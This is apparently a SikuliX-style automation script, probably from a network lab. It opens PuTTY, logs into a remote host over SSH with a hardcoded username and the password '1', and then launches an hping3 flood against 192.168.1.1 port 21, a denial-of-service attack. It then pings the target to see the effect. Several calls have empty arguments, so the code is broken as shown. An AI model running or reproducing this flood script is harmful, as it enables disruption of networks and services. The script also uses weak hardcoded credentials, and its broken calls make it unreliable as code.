

ip=input("Please enter ip is remoted") if not ip: exit(1) if ip: doubleClick() wait() click() sleep(1) type('sudo putty' + Key.ENTER + '1' + Key.ENTER) sleep(2) wait() paste(, ip) type(Key.ENTER) if not exists(): popup("SSH false") exit(1) else: sleep(1) type('quynhdam' + Key.ENTER) sleep(1) type('1' + Key.ENTER) if exists(Pattern().exact(),3): popup('User and Password incorrect') exit(1) else: sleep(3) type('sudo hping3 -2 -c 10000 -d 120 -S -p 21 --flood 192.168.1.1' + Key.ENTER + '1' + Key.ENTER) doubleClick() wait() click() sleep(1) type('ping 192.168.1.1' + Key.ENTER) sleep(2)